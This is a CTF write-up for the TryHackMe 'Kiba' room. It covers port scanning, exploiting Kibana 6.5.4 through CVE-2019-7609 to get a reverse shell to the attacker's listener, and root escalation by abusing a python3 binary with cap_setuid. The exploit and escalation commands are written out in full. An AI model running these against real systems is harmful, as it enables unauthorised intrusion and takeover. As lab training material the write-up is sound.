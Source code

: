 ```yaml
---
layout: post
title: kiba writeup
subtitle: Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/kiba/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, kiba]
---
```


Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution. Have Fun!


## Here is a machine information

| Title | Kiba | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 500 |
| Maker | Stuxnet |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## RUST SCAN and Enumeration
Normally, i will use the nmap for first step recon and also collect machine information. After some machine and read the article about rust scan. So what is the rust scan? How is it work? you can find here: https://github.com/RustScan/RustScan. It realy fast than nmap. 


``` rustscan -b 500 machine-ip ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]
</em>

It will take few time to scan: 

![rustscan](/leiz95/assets/img/kiba/rustscan.png)

We got 3 open ports. Go through each port. In port 5601, this is the kibana application.

![kibana](/leiz95/assets/img/kiba/5601.png)

Kibana is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack. Do anything from tracking query load to understanding the way requests flow through your apps.

We can manual go throung all tag in the kibana. We got version 6.5.4.
Let's google the version which have any public vulnerability.
There is the vulnerability as remote code executed in this version.

![kibana](/leiz95/assets/img/kiba/vulnerability.png)

From the CVE-2019-7609, we can use 2 source from here:

By manual: https://github.com/mpgn/CVE-2019-7609 and this is detail explanation why have this issue: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/

By auto code: https://github.com/LandGrey/CVE-2019-7609

I will use auto code try to exploit. Clone the code from github

``` git clone https://github.com/LandGrey/CVE-2019-7609.git ```

Exploit by run command:

``` python CVE-2019-7609-kibana-rce.py  -u http://machine-ip:5601 -host yourip port 1234 --shell ```

At your attacker machine, we need to listen the port 1234

![nc](/leiz95/assets/img/kiba/nc.png)

Then wait for shell connect

![shell](/leiz95/assets/img/kiba/shell.png)

From kibana home directory, we have the user flag.

![shell](/leiz95/assets/img/kiba/user.png)

## 	Escalate privileges 

As the hint, Capabilities is a concept that provides a security system that allows "divide" root privileges into different values.
Here is more source if you don't understand it.

- [Working with Linux Capabilities](https://www.vultr.com/docs/working-with-linux-capabilities#)

- [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Reading capabilities
To view if a file has any capability set, you can simply run 

`getcap /full/path/to/binary`

If you'd like to find out which capabilities are already set on your system, you can search your whole file-system recursively with the following command:

```getcap -r /```

Run this command on target machine, you will see a lot of error. To ignore error we should run:


```getcap -r / 2>/dev/null```

![shell](/leiz95/assets/img/kiba/result.png)

The thing realy interesting is: `/home/kiba/.hackmeplease/python3 = cap_setuid+ep
`

The python3 can SETUID which can abuse to Escalate root.

From https://gtfobins.github.io/gtfobins/python/#capabilities we have available code to exploit. Let's do it.

```python
 /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")' 
 ```

 Yeahm, we got root user.

 ![shell](/leiz95/assets/img/kiba/root.png)

Now we can find root flag via: 

```javasript
find / -type f -name root.txt 2>/dev/null
```

Then we cat the root.txt and got the flag.!!!
